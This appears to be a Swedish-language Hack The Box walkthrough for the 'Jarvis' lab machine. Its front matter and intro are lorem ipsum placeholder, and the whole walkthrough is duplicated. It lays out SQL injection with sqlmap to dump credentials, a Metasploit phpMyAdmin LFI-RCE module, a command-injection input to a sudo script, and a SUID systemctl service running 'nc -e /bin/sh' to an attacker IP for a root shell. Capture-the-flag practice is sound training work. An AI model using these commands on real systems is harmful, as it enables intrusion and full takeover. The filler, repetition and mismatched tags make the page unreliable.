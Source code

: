```yaml
---
layout: single
title: Jarvis - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-jarvis/jarvis_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-jarvis/jarvis_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt### USER ###

1. Basic enum (nmap -Pn -n -sC -sV -O 10.10.10.143 & dirb http://10.10.10.143)

2. Klicka runt p� sidan och se att /room.php?cod=2 kan uts�ttas f�r sql-injection genom att s�tta ' i slutet av uri

3. Execute SQL-injection med sqlmap f�r att f� fram user/pw:
sqlmap -u http://10.10.10.143/room.php?cod=2 --current-user --current-db --passwords --tamper=space2comment --random-agent --users --method=GET 

4. Logga in med crackade creds (DB*****:im******) p� http://10.10.10.143/phpmyadmin/

5. Metasploit har en lfi-rce f�r phpmyadmin (multi/http/phpmyadmin_lfi_rce) k�r den f�r meterpreter-shell

6. lse.sh visar att simpler.py k�rs som sudo

7. pspy64 visar att simpler.py k�rs
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

8. Ladda upp bash reverse shell och k�r scriptet sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
   Skriv in: "$(bash /tmp/reverse.sh)" utan "" f�r att f� user shell

9. cat /home/pepper/user.txt

### ROOT ###

1. Fixa SSH-access med pub-key
   local host: ssh-keygen
   remote host: mkdir ~/.ssh/
   remote host: vi ~/.ssh/authorized_keys  klistra in inneh�ll fr�n pub-key (/root/.ssh/id_rsa.pub)
   remote host: s�tt permission 700 p� .ssh och 644 p� authorized_keys samt att filen �gs av pepper
   local host: ssh pepper@10.10.10.143

2. lse -l1 visar att /bin/systemctl har suid
   Exploit info om bins med SUID: https://gtfobins.github.io/gtfobins/

3. Skapa en egen service via systemctl som skapar ett reverse root shell (gl�m inte starta nc innan):
    pepper@jarvis:/bin$ TF=$(mktemp).service
    pepper@jarvis:/bin$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.5 4488"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    pepper@jarvis:/bin$ ./systemctl link $TF
    pepper@jarvis:/bin$ ./systemctl enable --now $TF

4. cat /root/root.txt